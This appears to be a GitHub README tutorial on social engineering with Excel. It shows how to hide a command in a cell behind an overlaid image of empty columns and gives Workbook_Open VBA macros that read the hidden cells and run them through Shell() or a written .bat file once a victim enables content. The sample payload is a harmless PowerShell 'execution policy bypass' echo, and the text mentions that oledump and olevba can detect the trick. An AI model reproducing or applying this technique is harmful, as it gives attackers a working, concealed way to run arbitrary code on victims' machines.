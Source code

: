 # Social Engineering Using "Hidden" Macros In Excel

NOTE: This method is detectable if the analysis or victim has any technical knowledge of macros. Simply running a tool such as oledump or olevba against the document will return the macros, though they won't immediately reveal any of the real activity.

All that will be shown is that the macros are extracting code from a specific column & executing it using Shell(), which is admittedly still suspicious:

![](/imgs/img1.png)

And if we navigate to BG1 which is where the code appears to be, we don't immediately see anything suspicious:

![](/imgs/img2.png)

But if you hover your mouse over BG1 (or simply look a little more closely & notice the misaligned columns), then you'll see that there's an image overlaying the code:

![](/imgs/img3.png)

![](/imgs/img4.png)

Obviously, someone with a bit more patience could perfect the screenshot of the empty columns & overlay it on top of the code to make it less noticable.

But then again, there's always the method of using `MsgBox` to reveal the code that is being extracted:

![](/imgs/img5.png)

# Crafting the Document

## What's Needed:

1. Screenshot of a set of empty columns to overlay on top of the code, example:

![](/imgs/img6.png)

2. Macros that extract the code from the workbook & run the data:

```
Private Sub Workbook_Open()
Data = Sheet1.Range("BG1")
Shell(Data)
End Sub
```

* Data = Sheet1.Range("BG1") Simply looks at the row located at BG1 & extracts whatever is in that row & places it inside the variable *Data*

3. Code that will be extracted & executed upon the document opening & the user clicking "Enable Content"

```
powershell.exe -exec bypass -C echo "Hello world" > C:\Users\Desktop\Conduct\Desktop\test.txt
```

After you've inserted the code into whatever column you'd like, simply insert the image of the empty columns over the code (Insert > Illustrations > Pictures)

Then insert the macros in ThisWorkbook & change the **Range()** part to match up with your column. So if you inserted the data in column A and it's on the 1st row, it'd be **Range("A1")**


## Writing Multiple Lines To a File

Writing multiple lines to a file is a piece of cake and only requires the addition of a few lines of code.

The macro code used is here:

```
Private Sub Workbook_Open()
1. Dim Path As String
2. Dim FileNumber As Integer
3. FileNumber = FreeFile
4. Data = Sheet1.Range("BG1")
5. Data2 = Sheet1.Range("BG2")
6. Path = "test.bat"
7. Open Path For Output As FileNumber
8.    Print #FileNumber, Data
9.    Print #FileNumber, Data2
10.    Close FileNumber
11. Shell(Path)
End Sub
```

* Lines 1-3 are static, keep those as is. They simply define the variables used
* Lines 4-6 are dynamic. You will want to change the strings in 4 & 5 to be where your code is located in terms of the excel worksheet. Change line 6 to the file path you desire.
* Lines 7-9 are also dynamic, they simply open the file & write to the file the data that has been extracted. Lines 8 & 9 in particular are the lines responsible for writing the data to the file.


Simply insert the code you want to write to a file into the workbook & take note of the column & row it's located in & change the Data & Data1 variable to match up with your column & row (and add more variables if needed). Then overlay the code in the workbook with the screenshot of the empty rows, and boom!

A sample document is available, I hope this all made sense.
